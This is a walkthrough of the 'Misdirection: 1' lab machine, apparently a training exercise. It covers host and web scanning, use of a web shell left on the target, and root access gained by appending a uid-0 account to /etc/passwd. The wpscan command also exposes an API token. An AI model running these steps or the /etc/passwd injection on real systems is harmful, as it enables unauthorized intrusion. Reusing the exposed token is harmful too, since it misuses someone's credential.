# MISDIRECTION: 1

# 1 Information gathering
## 1.1 Discovery host
`nmap -Pn -F 192.168.122.1/24 -oN host_discovery.txt`



## 1.2 Service enum
`nmap -sV -sC -p- 192.168.122.128 -oN full_service_enum-sC.txt`


`nmap -sV -sU -F 192.168.128.128 -oN udp-sC-sV.txt`

## 1.3 Web 80
### 1.3.1 Gobuster
`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-1.0.txt --wildcard -o info.txt`

`gobuster dir -u http://192.168.122.128 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --wildcard -o info1.txt`

You will need grep data that not contain 400 status code:



### 1.3.2 User manual in main page
`http://192.168.122.128/init/static/evote_user_manual.pdf`

  It shows us the app version:


### 3.3.3 Web2py exploit (but not usable)


## 1.4 Web 8080
### 1.4.1 Dirb


Interesting, the target have wordpress, debug and shell directories.

### 1.4.2 Wpscan
`wpscan --url http://192.168.122.128:8080/wordpress/ -e ap,at,tt,cb,dbe,u1-20,m --plugins-detection aggressive --disable-tls-checks --api-token 7MBL9noH6s6pOW5qAM6boXVS5wEMayvrBaaoBbMaIKg -o all-info.txt`

### 1.4.3 Debug dir (web shell)

Here we have a web shell previously uploaded by an attacker. I will use it.

# 2 Exploitation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
For reverse shell we can use the web shell:



# 3 Post-exploitation
LinEnum returns some information:



## 3.1 First user
`sudo -u brexit /bin/bash`



## 3.2 Getting root with openssl
Since we have write access as brexit user, we can use openssl to escalate privilege:
`openssl passwd -1 -salt foo foo@12345`


With `echo`, let's add a new user manually:
`echo 'foo:$1$foo$vIxZ6xcPqixL6sHxOWInM1:0:0:root:/root:/bin/bash' >> /etc/passwd`

obs: Its necessary to use single quotes, or the new user is not added.


